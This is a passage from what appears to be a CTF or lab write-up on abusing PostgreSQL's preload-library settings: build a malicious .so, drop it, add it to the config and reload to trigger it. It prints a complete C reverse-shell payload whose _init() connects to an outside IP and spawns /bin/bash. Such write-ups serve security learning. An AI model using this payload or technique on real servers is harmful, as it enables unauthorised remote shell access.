 As to quote from this very well written blog:
> All of these parameters (despite having some differences) specify the libraries’ names, which the PostgreSQL server will preload from the directory set in `dynamic_library_path`.

So, if we can:
- Build our own malicious `.so`
- Drop it onto the machine
- Update the config to load it
- Reload the config to trigger it
- Profit??

## Testing the theory

### Making a working `.so`

This took me **_a lot_** longer than I'd like to admit due to 2 very silly issues:
- I had not forwarded a port (rookie mistake)
- Docker without a specific arch, with `gcc`, on a M1 Mac (triple oopsie, don't do it on a Mac kids)

My teammates actually ended up beating me to the punch on this after I went at it for an hour and I had to play catchup...

The blog post above has a sample revshell payload:
```c
 #include <stdio.h>
 #include <sys/socket.h>
 #include <sys/types.h>
 #include <stdlib.h>
 #include <unistd.h>
 #include <netinet/in.h>
 #include <arpa/inet.h>
 #include "postgres.h"
 #include "fmgr.h"
    
 #ifdef PG_MODULE_MAGIC
 PG_MODULE_MAGIC;
 #endif
    
 void _init() {
     /*
         code taken from https://www.revshells.com/
     */
    
     int port = 8888;
     struct sockaddr_in revsockaddr;
    
     int sockt = socket(AF_INET, SOCK_STREAM, 0);
     revsockaddr.sin_family = AF_INET;       
     revsockaddr.sin_port = htons(port);
     revsockaddr.sin_addr.s_addr = inet_addr("172.23.16.1");
    
     connect(sockt, (struct sockaddr *) &revsockaddr, 
     sizeof(revsockaddr));
     dup2(sockt, 0);
     dup2(sockt, 1);
     dup2(sockt, 2);
    
     char * const argv[] = {"/bin/bash", NULL};
     execve("/bin/bash", argv, NULL);
 }
```
